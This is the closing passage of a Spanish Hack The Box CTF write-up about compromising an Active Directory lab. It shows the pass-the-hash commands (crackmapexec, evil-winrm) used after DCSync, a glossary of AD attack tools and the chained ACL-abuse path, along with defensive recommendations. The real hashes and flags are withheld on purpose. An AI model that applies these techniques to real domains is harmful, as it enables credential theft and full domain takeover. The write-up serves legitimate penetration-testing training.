

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<hash NT>:::
```

> 🔒 El hash NT real de Administrator no se publica en este writeup a propósito, para no regalar la respuesta a quien esté practicando esta misma máquina — el comando exacto para obtenerlo queda documentado arriba.

Validamos y usamos el hash de Administrator:

```bash
crackmapexec winrm 10.129.92.32 -u administrator -H '<hash NT de Administrator>'
```



```bash
evil-winrm -u 'administrator' -H '<hash NT de Administrator>' -i 10.129.92.32
```

> 💡 Pass-the-hash directo: con el hash NT obtenido vía DCSync, no hace falta crackear ninguna contraseña — el hash es la credencial.



`root.txt` confirmado en el escritorio de Administrator — compromiso total del dominio.

## 5. Post-explotación y flags

Shell de Administrator confirmada en el controlador de dominio — compromiso total del dominio acreditado.

> 🔒 El contenido exacto de `user.txt` y `root.txt` no se publica en este writeup a propósito, para no regalar la respuesta a quien esté practicando esta misma máquina — el camino completo hasta cada uno queda documentado en las secciones §4 y §5.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Permisos ACL encadenados (`GenericAll`, `ForceChangePassword`) entre cuentas de usuario estándar | `olivia → michael → benjamin` | Permite resetear contraseñas en cascada sin conocer ninguna contraseña real |
| Servicio FTP expuesto en el controlador de dominio con credenciales de usuario válidas | Puerto 21 | Acceso a una copia de seguridad con secretos |
| Base de datos de gestor de contraseñas (`.psafe3`) con contraseña maestra débil | `Backup.psafe3` | Filtración de las credenciales de varias cuentas adicionales de golpe |
| `GenericWrite` sobre una cuenta de usuario sin SPN | `emily → ethan` | Permite asignar un SPN temporal y ejecutar Kerberoasting dirigido |
| Derechos de replicación (`GetChanges`/`GetChangesAll`) sobre el dominio asignados a una cuenta de usuario estándar | `ethan` | Ataque **DCSync**: volcado completo de credenciales del dominio, incluido Administrator |

## Recomendaciones defensivas

- Auditar periódicamente las ACLs de Active Directory con BloodHound (o herramientas equivalentes) desde la perspectiva de cualquier usuario estándar, no solo de cuentas privilegiadas — una cadena de permisos "menores" puede terminar en compromiso total.
- No exponer servicios como FTP en un controlador de dominio salvo necesidad estrictamente justificada, y nunca con copias de seguridad de credenciales accesibles.
- No almacenar bases de datos de gestores de contraseñas en ubicaciones accesibles por cuentas de bajo privilegio; exigir contraseñas maestras robustas y únicas.
- Restringir la concesión de `GenericWrite`/`GenericAll`/`ForceChangePassword` de cuentas de usuario estándar sobre otras cuentas — revisar especialmente delegaciones heredadas de OUs.
- Restringir estrictamente los derechos de replicación (`Replicating Directory Changes`/`All`) a controladores de dominio legítimos y cuentas de backup estrictamente necesarias.
- Monitorizar solicitudes de replicación DRS inusuales (fuera de los propios DCs) y cambios de `servicePrincipalName` en cuentas de usuario, como indicadores de DCSync y Kerberoasting dirigido respectivamente.

## 7. Glosario de herramientas y comandos

| Herramienta / comando | Para qué sirve |
|------------------------|-----------------|
| `ping` / `nmap` | Descubrimiento de host y enumeración de puertos/servicios |
| `enum-nmap` | Script propio que resume la salida de Nmap |
| `kerbrute userenum` | Enumera usuarios válidos de Kerberos abusando de la respuesta diferenciada del KDC ante un `AS-REQ` |
| `bloodhound-python` / `bloodhound-start` | Recolector de BloodHound para Linux y arranque de su interfaz gráfica (Neo4j) |
| **BloodHound** | Analiza gráficamente las relaciones de AD (ACLs, pertenencia a grupos, sesiones) para encontrar rutas de escalada |
| **`GenericAll`** | Control total sobre un objeto de AD; sobre un usuario, permite resetear su contraseña sin conocer la actual |
| **`ForceChangePassword`** | Derecho extendido más acotado: solo permite forzar el cambio de contraseña de la cuenta objetivo |
| `net rpc password` | Utilidad de Samba para resetear remotamente la contraseña de una cuenta de dominio, abusando de `GenericAll`/`ForceChangePassword` |
| `crackmapexec smb/winrm -u -p` | Valida credenciales contra SMB o WinRM; `(Pwn3d!)` indica ejecución remota de comandos confirmada |
| `ftp` | Cliente de línea de comandos para FTP |
| **Password Safe / `.psafe3`** | Formato de base de datos cifrada (Twofish) de un gestor de contraseñas de código abierto, protegida por una única contraseña maestra |
| `pwsafe2john` | Extrae el hash de la contraseña maestra de un fichero `.psafe3` para crackeo offline con John |
| `pwsafe` | Cliente gráfico de Password Safe para abrir y explorar la base de datos descifrada |
| **`GenericWrite`** | Permite modificar la mayoría de atributos de un objeto, incluido `servicePrincipalName` |
| **Kerberoasting dirigido** (`targetedKerberoast.py`) | Abusa de `GenericWrite` para asignar un SPN temporal a una cuenta y forzar su Kerberoasting, retirando el SPN después |
| `hashcat -m 13100` | Ataque de diccionario sobre hashes Kerberos 5 TGS-REP etype 23 |
| **DCSync** (`GetChanges`/`GetChangesAll`) | Abuso de los permisos de replicación de AD para solicitar al DC las credenciales de cualquier cuenta, sin ejecutar código en el controlador |
| `secretsdump.py` | Implementa el protocolo de replicación DRSUAPI/MS-DRSR para volcar `NTDS.dit` (todos los hashes del dominio) de forma remota |
| **Pass-the-hash (PtH)** | Autenticarse con el hash NT directamente, sin necesidad de la contraseña en claro |

## 8. Flujo de ataque



> 💡 **El porqué de cada paso:** esta máquina no depende de una sola vulnerabilidad técnica, sino de **seguir el grafo de BloodHound** repetidamente — cada cuenta nueva que se compromete abre un camino distinto (un permiso ACL, un recurso de red, un fichero con secretos) que hay que volver a enumerar desde cero, por eso el bucle `K → C` en el diagrama. `GenericWrite` merece mención aparte: no es tan directo como `GenericAll`, pero permite técnicas más sutiles como asignar un SPN temporal para forzar un Kerberoasting dirigido contra una cuenta que normalmente no sería "kerberoasteable". Y, como en toda cadena de AD, el punto de no retorno es encontrar una cuenta con derechos de replicación (DCSync): a partir de ahí, el compromiso del dominio completo es inmediato y no depende de ninguna otra vulnerabilidad.

---

*Escrito por [Arabot](https://github.com/Caan31) · Hack The Box · práctica CPTS · 2026*
